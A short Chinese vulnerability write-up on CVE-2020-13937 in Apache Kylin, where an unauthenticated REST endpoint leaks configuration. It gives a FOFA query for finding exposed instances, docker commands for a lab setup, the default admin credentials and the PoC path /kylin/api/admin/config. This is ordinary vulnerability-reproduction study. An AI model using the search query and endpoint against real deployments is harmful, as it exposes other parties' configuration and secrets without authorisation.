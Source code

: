 # Apache Kylin config 未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息

## FOFA

```
app="APACHE-kylin"
```

## 环境搭建

```
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

![image-20220525161044773](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251610838.png)

## 漏洞复现

漏洞验证POC

```
/kylin/api/admin/config
```

![image-20220525161140820](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251611885.png)